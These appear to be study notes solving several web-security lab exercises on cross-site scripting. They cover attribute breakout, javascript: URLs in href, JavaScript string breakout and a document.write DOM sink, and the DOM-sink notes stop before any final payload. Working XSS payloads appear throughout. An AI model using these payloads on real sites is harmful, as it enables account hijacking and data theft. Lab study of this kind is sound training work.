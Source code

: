 # Reflected XSS into attribute with angle brackets HTML-encoded
1. Search bar
2. Submit candidate payload and see that angle brackets are encoded
3. Input is included inside an `<input` tag
4. Close the attribute and introduce a new attribute that can create a scriptable context
```
GET /?search=XSSTESTING" autofocus onfocus="alert(document.domain)
```
# Stored XSS into anchor `href` attribute with double quotes HTML-encoded
1. View post
2. Submit a comment and send to repeater
3. No XSS vectors in the comment, name, email parameter
4. Website submitted data goes into a `href` attribute
5. Construct a malicious URL
```
javascript:alert(document.domain)
```
# Reflected XSS into a JavaScript string with angle brackets HTML encoded
1. Search bar
2. Submit user input and see that our input is fed into a `<script>` tag
3. Angle brackets are HTML encoded
4. Break out of the current JavaScript string and call `alert()`
```
GET /?search=XSSTESTING';alert(document.domain)//
```
- Alternative payload: `'-alert(document.domain)-'`
# DOM XSS in `document.write` sink using source `location.search` inside a select element
1. View product details
2. Identify `<script>` in the HTTP response
```html
<script>
var stores = ["London","Paris","Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if(store) {
document.write('<option selected>'+store+'</option>');
}
for(var i=0;i<stores.length;i++) {
	if(stores[i] === store) {
		continue;
	}
	document.write('<option>'+stores[i]+'</option>');
}
document.write('</select>');
</script>
```
- This takes a `storeId` parameter from the URL and passes it to `document.write` where the options are for the stores
3. Construct a search and see where it is returned in the HTML
```
GET /product?productId=3&storeId=XSSTESTING
```
4. In the browser, our `XSSTESTING` appears in the DOM
```html
<select name="storeId">
```